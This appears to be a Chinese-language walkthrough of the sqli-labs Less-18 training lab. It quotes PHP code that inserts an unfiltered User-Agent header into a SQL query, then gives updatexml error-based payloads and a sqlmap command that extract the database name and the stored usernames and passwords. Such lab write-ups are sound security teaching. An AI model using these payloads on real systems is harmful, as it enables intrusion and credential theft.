



# Less-18 基于错误的用户代理头部POST注入
**源码分析**
```php
// uname, passwd 被过滤 — 不可注入
$uname = check_input($_POST['uname']);
$passwd = check_input($_POST['passwd']);

// User-Agent 直接拿 — 注入点在这里！
$uagent = $_SERVER['HTTP_USER_AGENT'];

// 登录成功后 INSERT（uagent 拼进去了）
$insert="INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)";
// 报错回显开着
print_r(mysql_error());
```
可以看到uname和passwd都进行了过滤，这里有个注意点，在平常的渗透中，**当输入点没有注入，可以想想是否在其他地方有注入，程序员对于普通用户的输入点过滤严格，但是其他地方却没有进行过滤，导致了注入的发生，也是需要我们多多注意**
**这关注入的前提是用户名和密码输入正确**
用burp抓包
修改User-Agent: 1' 报错

1' and updatexml(1,concat(0x7e,(database())),1) and '1'='1 #爆库名 
...
1' and updatexml(1,concat(0x7e,(select group_concat(username,0x3a,password) from users)),1) and '1'='1 #爆数据 


---
sqlmap
sqlmap -u "ip/Less-18/" --data="uname=Dumb&passwd=Dumb" --batch --level=3 --sql-query="select group_concat(username,0x3a,password) from security.users"


